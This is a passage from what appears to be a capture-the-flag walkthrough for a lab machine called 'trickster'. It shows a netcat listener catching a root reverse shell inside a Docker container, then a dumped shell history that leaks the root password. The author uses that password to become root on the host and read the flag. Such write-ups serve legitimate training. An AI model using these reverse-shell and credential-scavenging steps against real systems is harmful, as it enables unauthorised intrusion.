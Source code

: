 ```bash
python3 -m http.server 8082
touch test
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.34 42444
root@ae5c137aa8ef:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Excellent now I am root inside of docker. Why would I want this? Well there's a few misconfiguration or poor opsec opportunities that I can abuse. Maybe root left in an ssh key somewhere. Maybe there's a script with a backdoor that calls to a root API, or maybe root reused the same password and I can crack it/read it in plaintext from a script/history.

```bash
root@ae5c137aa8ef:/app# history
history
    1  apt update
    2  #YouC4ntCatchMe#
    3  apt-get install libcap2-bin
    4  capsh --print
    5  clear
    6  capsh --print
    7  cd changedetectionio/
    8  ls
    9  nano forms.py 
   10  apt install nano
   11  nano forms.py 
   12  exit
   13  capsh --print
   14  nano
   15  cd changedetectionio/
   16  nano forms.py 
   17  exit
   18  nano changedetectionio/flask_app.py 
   19  exit
   20  nano changedetectionio/flask_app.py 
   21  exit
   22  nano changedetectionio/flask_app.py 
   23  nano changedetectionio/static/js/notifications.js 
   24  exit
   25  id
   26  ls
   27  netstat -tunlp
   28  history
```

Normally history isn't useful in these engagements, but in a real life engagement history could tip off to various permissions the user has or endpoints that you might not have been able to enumerate quickly or efficiently. 

```bash
james@trickster:~$ su root
Password: 
root@trickster:/home/james# cd /root
root@trickster:~# ls
changedetection  root.txt  scripts  snap
root@trickster:~# cat root.txt
344be4e91e0---------------------
```
